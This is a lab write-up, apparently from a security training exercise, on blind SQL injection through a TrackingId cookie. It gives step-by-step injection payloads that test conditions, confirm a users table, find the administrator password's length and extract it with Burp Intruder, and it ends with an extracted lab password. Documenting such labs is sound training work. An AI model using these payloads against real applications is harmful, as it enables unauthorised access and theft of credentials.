





# Lab: Blind SQL Injection with Conditional Responses

## Vulnerability
The `TrackingId` cookie is vulnerable to blind SQL injection. The "Welcome back" message acts as a truth indicator.

## Exploit

### Step 1 — Confirm vulnerability
TrackingId=xyz' AND '1'='1  
TrackingId=xyz' AND '1'='2  

Confirmed conditional response behavior.

### Step 2 — Verify users table
TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a  

Confirmed table exists.

### Step 3 — Verify administrator user
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a  

Confirmed user exists.

### Step 4 — Determine password length
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a  

Repeated until condition failed → length = 20

### Step 5 — Extract password
Used Burp Intruder (Cluster Bomb):

- Position 1: index (1–20)  
- Position 2: characters (a–z, 0–9)  
- Grep match: "Welcome back"  

### Step 6 — Result
Extracted password:

0mpuo7dk6vaoybn7exfi

## Result
Successfully extracted administrator password using blind SQL injection.

## Key Point
Blind SQL injection relies on application behavior to infer data, often requiring automation.

## Proof

